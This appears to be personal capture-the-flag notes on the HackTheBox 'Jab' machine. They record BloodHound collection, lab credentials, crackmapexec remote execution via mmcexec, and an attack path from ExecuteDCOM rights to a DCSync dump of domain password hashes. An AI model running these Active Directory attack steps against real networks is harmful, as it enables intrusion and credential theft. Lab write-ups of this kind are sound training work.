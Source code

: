```bash
┌──(pwn㉿kali)-[~]
└─$ bloodhound-python 

┌──(pwn㉿kali)-[~]
└─$ bloodhound-python -d jab.htb -c all -u jmontgomery -p Midnight_121 -ns 10.10.11.4 --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)

`-c all`, BloodHound collects everything,
```
-in pidgin i added user jmontgomery
![[Pasted image 20250211154204.png]]

![[Pasted image 20250211154346.png]]
```bash

svc_openfire
!@#$%^&*(1qazxsw
```
-i ran bloodhound
```bash
jmontgomery mark as its owned
svc_openfire mark its owned
```
![[Pasted image 20250211160352.png]]

`ExecuteDCOM` allows an attacker to run commands remotely on this system.
There is a `DCSync` relationship, meaning the attacker can replicate AD secrets
### **Attack Path Summary**:

- **Step 1**: The attacker starts with an account that has `ExecuteDCOM` rights on a workstation/server.
- **Step 2**: Using this privilege, the attacker can gain execution on the workstation.
- **Step 3**: From this workstation, the attacker can escalate to a high-privilege user with `DCSync` rights.
- **Step 4**: The `DCSync` attack allows the attacker to extract password hashes for all users, including the domain administrator.


```bash
┌──(pwn㉿kali)-[~]
└─$ crackmapexec smb 10.10.11.4 -u svc_openfire -p '!@#$%^&*(1qazxsw' --exec-method mmcexec -x 'dir'
SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.4      445    DC01             [+] jab.htb\svc_openfire:!@#$%^&*(1qazxsw 

```
#### **`--exec-method mmcexec`**
it needs admin but we are not
- Specifies the execution method as **MMCExec**:
    - MMCExec abuses the Microsoft Management Console (MMC) for command execution.
    - It is useful for bypassing certain security controls like **AMSI and AppLocker**.
    - Requires administrative privileges on the target

---